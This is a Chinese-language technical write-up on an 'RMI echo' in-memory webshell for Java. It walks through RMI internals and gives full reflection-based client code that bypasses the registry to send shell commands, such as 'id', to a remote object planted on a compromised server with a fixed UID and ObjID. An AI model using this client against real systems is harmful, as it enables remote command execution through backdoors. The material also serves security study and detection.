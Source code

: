 # RMI Echo

RMI即java的远程方法调用。RMI有三个基本模块：server、registry和client。其中`server`是RMI的服务对象，会为服务对象暴露一个端口作为入口；`client`是RMI的客户端，即服务的调用；`registry`是注册端，负责管理所有的server，并暴露一个注册端口。通过注册端口，`server`可以将自身绑定在注册端，`client`可以查询到已绑定的`server`列表，并获取`server`的端口以供调用。

实际上，对于RMI echo内存马，我们的需求只需开放一个rmi server即可，不需要rmi registry。但java内置的SDK只能通过registry间接获取server。正常的RMI client代码如下

```java
AInterface lookup = (AInterface) Naming.lookup("rmi://x.x.x.x:PORT/aevil"); //AInterface是对应Remote Object实现的接口
Object r = lookup.echo("id");
```

`Naming.lookup()`实际上就是请求registry，得到名为`aevil`的Remote Object的端口。`lookup.echo()`则是通过对象代理的方式进行远程调用。



一个client与server交互的数据如下：

![](../img/3.png)

首先会发送握手包，握手包的发送可以在**`sun.rmi.transport.tcp.TCPChannel#newConnection`**找到

```java
public Connection newConnection(){
	return this.createConnection();
}
private Connection createConnection() throws RemoteException {
    .....
}
```

Server端的TCP入口为**`sun.rmi.transport.tcp.TCPTransport.ConnectionHandler#run0`**，这里会校验RMI的数据包头

```java
if (magic != TransportConstants.Magic ||
    version != TransportConstants.Version) {
    // protocol mismatch detected...
    // just close socket: this would recurse if we marshal an
    // exception to the client and the protocol at other end
    // doesn't match.
    closeSocket(socket);
    return;
}
```

最后实际进行远程调用的是**`sun.rmi.server.UnicastRef#invoke(java.rmi.Remote, java.lang.reflect.Method, java.lang.Object[], long)`**

```java
public Object invoke(Remote obj,
                     Method method,
                     Object[] params,
                     long opnum)
{
    //创建一个TCP连接，并发送握手包，
    Connection conn = ref.getChannel().newConnection();
    //组装Rmi调用数据，调用哪个方法，传入什么参数
    call = new StreamRemoteCall(conn, ref.getObjID(), -1, opnum);
    ObjectOutput out = call.getOutputStream();
    Class<?>[] types = method.getParameterTypes();
    for (int i = 0; i < types.length; i++) {
        marshalValue(types[i], params[i], out);
    }
    //发送Rmi调用
    call.executeCall();
    //获取返回数据
    ObjectInput in = call.getInputStream();
    //反序列化获取返回值
    Object returnValue = unmarshalValue(rtype, in);
}
```

所以我们若想要舍去registry，需要仿写这个`invoke()`方法

```java
String ip = args[0];
int port = Integer.valueOf(args[1]);
String command = args[2];

Object[] params = new Object[]{
    null,
    command,
    null,
    null,
    null
};

//设置固定的UID和ObjId
UID uid = new UID((short)12345);
Constructor<ObjID> objIDConstructor = ObjID.class.getDeclaredConstructor(new Class[]{
    long.class,
    UID.class
        });
objIDConstructor.setAccessible(true);
ObjID objID = objIDConstructor.newInstance(new Object[]{
    123456789L,
    uid
});

//调用TCPChannel#newConnection
//构造需要的对象
Socket socket = new Socket(ip, port);
LinkedList<TCPEndpoint> tcpEndpoints = new LinkedList<>();
TCPEndpoint tcpEndpoint = new TCPEndpoint(ip, port);
tcpEndpoints.add(tcpEndpoint);

Constructor<TCPTransport> tcpTransportConstructor = TCPTransport.class.getDeclaredConstructor(new Class[]{
    LinkedList.class
        });
tcpTransportConstructor.setAccessible(true);
TCPTransport tcpTransport = tcpTransportConstructor.newInstance(new Object[]{
    tcpEndpoints
});

Constructor<TCPChannel> tcpChannelConstructor = TCPChannel.class.getDeclaredConstructor(new Class[]{
    TCPTransport.class,
    TCPEndpoint.class
        });
tcpChannelConstructor.setAccessible(true);
TCPChannel tcpChannel = tcpChannelConstructor.newInstance(new Object[]{
    tcpTransport,
    tcpEndpoint
});

Connection tcpConnection = tcpChannel.newConnection();

//由于Remote Object需要实现一个接口，这里选取了RMIConnection#invoke作为恶意接口
Method method = RMIConnection.class.getMethod("invoke", new Class[]{
    ObjectName.class,
    String.class,
    MarshalledObject.class,
    String[].class,
    Subject.class
        });
Method getMethodHashMethod = RemoteObjectInvocationHandler.class.getDeclaredMethod("getMethodHash", new Class[]{
    Method.class
        });
getMethodHashMethod.setAccessible(true);
Long opnum = (Long) getMethodHashMethod.invoke(null, new Object[]{
    method
});

//组装数据
StreamRemoteCall streamRemoteCall = new StreamRemoteCall(tcpConnection, objID, -1, opnum);
Method marshalValueMethod = UnicastRef.class.getDeclaredMethod("marshalValue", new Class[]{
    Class.class,
    Object.class,
    ObjectOutput.class
        });
marshalValueMethod.setAccessible(true);

Class<?>[] types = method.getParameterTypes();
for (int i = 0; i < types.length; i++) {
    marshalValueMethod.invoke(null, new Object[]{
        types[i], params[i], streamRemoteCall.getOutputStream()
    });
}
//远程调用
streamRemoteCall.executeCall();

//获取返回值
Class<?> returnType = method.getReturnType();
ObjectInput inputStream = streamRemoteCall.getInputStream();
Method unmarshalValueMethod = UnicastRef.class.getDeclaredMethod("unmarshalValue", new Class[]{
    Class.class,
    ObjectInput.class
        });
unmarshalValueMethod.setAccessible(true);
Object invoke = unmarshalValueMethod.invoke(null, new Object[]{
    returnType,
    inputStream
});
System.out.println("[+] Result:\n");
System.out.println(invoke);
```



上面的代码中，值得注意的是**"设置固定的UID和ObjId"**这一段，为什么要设置固定的呢？

在Rmi server处，接受了客户端发来的调用请求后，会根据客户端发来的UID和ObjID与导出对象的UID和ObjID进行校验，只有一致才能正常进行调用

**`sun.rmi.transport.ObjectTable#getTarget(sun.rmi.transport.ObjectEndpoint)`**

```java
static Target getTarget(ObjectEndpoint oe) {
    synchronized (tableLock) {
        return objTable.get(oe);
    }
}
```

而默认`exportObject()`出来的`UID`和`ObjID`是随机不可预测的，只好在Payload中预先定义了

# Reference

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿（上）](https://paper.seebug.org/1091/)

[搞懂RMI、JRMP、JNDI-终结篇](https://threedr3am.github.io/2020/03/03/%E6%90%9E%E6%87%82RMI%E3%80%81JRMP%E3%80%81JNDI-%E7%BB%88%E7%BB%93%E7%AF%87/)